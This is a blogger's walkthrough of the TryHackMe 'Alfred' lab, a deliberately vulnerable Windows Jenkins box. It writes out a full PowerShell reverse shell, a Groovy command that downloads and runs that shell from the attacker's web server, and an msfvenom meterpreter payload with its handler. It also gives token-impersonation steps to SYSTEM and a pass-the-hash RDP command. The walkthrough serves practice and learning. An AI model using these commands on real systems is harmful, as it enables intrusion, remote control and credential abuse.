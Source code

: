 *2021-08-28*

*kimm3*

# Walkthrough: Alfred
Platform: TryHackMe

Difficulty: Easy

- [Link](https://tryhackme.com/room/alfred)

As this is a room on TryHackMe I don't explore every single possibility, I awnser the questions and move on. I won't post any awnsers to questions here, or even refer to them - just showing how to hack the box, as intended.
## Setup
![ll](assets/markdown-img-paste-20210826112245589.png)

```
script history
export IP=10.10.164.114
```
## Scans and enumeration
`sudo nmap $IP -p- -Pn -A -oA scans/nmap-init`

![nmap-init](assets/markdown-img-paste-20210828142340191.png)

![indexp80](assets/markdown-img-paste-20210828142419808.png)

Index at port 80.

![indexp8080](assets/markdown-img-paste-20210828142439465.png)

Index at port 8080. No need for brute-forcing here, it's the default username for both user and password.

![jenkinsdashboard](assets/markdown-img-paste-20210828142811484.png)

![whoami](assets/markdown-img-paste-20210828143452256.png)

We can run commands through the java/groovy interface.

![seimpersonate](assets/markdown-img-paste-20210828145607702.png)

The "seimpersonate" token is enabled. We might be albe to use that to get root, like in the [shield box on htb.](https://boxdocs.kimgard.com/wt-shield-pub/wt-shield.html) Let's get a shell first.
## Foothold
Let's try a PS reverse shell to get a foothold. I'll reuse the one from [Archetype](https://boxdocs.kimgard.com/wt-archetype-pub/wt-archetype.html#ms-sql-server).

**Prep:**
- Create a shell with your IP, `vim upload/shell.ps1`:
```
$client = New-Object System.Net.Sockets.TCPClient('10.8.210.115',4242);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd) + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

- Host it with a http server:
```
cd upload
python3 -m http.server 80
```

- Set up a listener:
```
script history/target1
nc -lvnp 4242
```

**Execution:**
- Run command in groovyshell to execute.
```
print "powershell -c iex (new-object system.net.webclient).downloadstring('http://10.8.210.115/shell.ps1')".execute()
```

![foothold](assets/markdown-img-paste-2021082815015071.png)

![usertxt](assets/markdown-img-paste-2021082815040324.png)

*Note*

The room wants you to use the [nishang Invoke-PowerShellTcp](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) reveerse shell. Same but different.

### Shell to meterpreter
Let's make life easier with a meterpreter.

- Create a binary executable file with a meterpreter, using msfvenom.
```
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.8.210.115 LPORT=3131 -f exe -o upload/myshell.exe
```
- Transfer the file via powershell.
```
# The web server is up and running since before.
powershell -c "(new-object system.net.webclient).downloadfile('http://10.8.210.115/myshell.exe','myshell.exe')"
```
![myshellexe](assets/markdown-img-paste-2021082815345310.png)

- Set up a handler in msfconsole.
```
script history/target2
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
show options
set LHOST
set RPORT
run
```
- Execute.
`start-process "myshell.exe"`

![meterpreter](assets/markdown-img-paste-20210828153849944.png)
## Privilege Escalation
```
# meterpreter
load incognito
list_tokens -g
impersonate_token BUILTIN\\Administrators
getuid
ps
# find the pid of the services.exe or another process by "NT AUTHORITY\SYSTEM"
migrate 668
cat "C:\Windows\system32\config\root.txt"
```

![system](assets/markdown-img-paste-20210828154514322.png)

![migrate](assets/markdown-img-paste-20210828154941224.png)

## Post Exploitation
![hashdump](assets/markdown-img-paste-20210828155034493.png)

One thing I was able to do with the hashdump of bruce was to get a rdp desktop window of the box with freerdp and pass-the-hash.

`xfreerdp /u:bruce /pth:3ea0013c7eb26d63606673c34322b4ae /v:10.10.164.114:3389`

![freerdp](assets/markdown-img-paste-20210828160522836.png)

Tried to crack the password with 'rockyou.txt', but didn't work, leaving it for now.
